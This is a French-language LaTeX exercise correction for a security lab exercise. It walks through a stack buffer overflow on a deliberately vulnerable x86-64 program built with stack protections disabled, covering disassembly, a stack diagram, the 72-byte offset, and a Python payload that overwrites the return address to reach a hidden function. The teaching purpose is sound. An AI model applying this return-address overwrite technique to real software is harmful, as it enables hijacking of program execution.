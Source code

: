 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}

\textbf{1a)} Après compilation et exécution :
\begin{lstlisting}[style=GDBStyle]
$ gcc -fno-stack-protector -no-pie -z execstack -g stackx64.c -o stackx64
$ echo "AAAA" | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6
...
\end{lstlisting}

\textbf{1b)} Désassemblage de \texttt{vulnerable\_function} :
\begin{lstlisting}[style=GDBStyle]
(gdb) disassemble vulnerable_function
   ...
   0x00000000004011fa <+4>:  push   rbp
   0x00000000004011fb <+5>:  mov    rbp,rsp
   0x00000000004011fe <+8>:  sub    rsp,0x40
   ...
\end{lstlisting}
L'instruction \texttt{sub rsp, 0x40} réserve \textbf{64 octets} (0x40 = 64) pour les variables locales, ce qui correspond au \texttt{char buffer[64]}.

\textbf{1c)} Schéma de la pile :
\begin{lstlisting}[style=GDBStyle]
Adresse          Contenu                 Description
-----------      -----------------       -------------------
0x7fffffffde58   0x0000000000401247      Adresse de retour (vers main)
0x7fffffffde50   0x00007fffffffde70      RBP sauvegarde
0x7fffffffde4c   0x0000000000000000      \
0x7fffffffde48   0x0000000000000000       |
...              ...                      | buffer[64]
0x7fffffffde14   0x0000000000000000       |
0x7fffffffde10   0x4141414141414141      /  <-- debut du buffer
\end{lstlisting}

\textbf{1d)} Offset = taille du buffer + RBP sauvegardé = 64 + 8 = \textbf{72 octets}.

Vérification avec GDB : on envoie 72 \texttt{A} + 8 \texttt{B} et on vérifie que l'adresse de retour contient \texttt{0x4242424242424242} :
\begin{lstlisting}[style=GDBStyle]
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'B'*8)")
(gdb) x/gx $rbp+8
0x7fffffffde58: 0x4242424242424242
\end{lstlisting}

\textbf{1e)} L'adresse de \texttt{secret\_function} est \texttt{0x4011d6}. En little-endian :
\begin{lstlisting}[style=GDBStyle]
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')" | ./stackx64
=== StackX64 - Vulnerable Program ===
...
=============================================
  SECRET FUNCTION REACHED!
  You successfully redirected execution!
=============================================
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
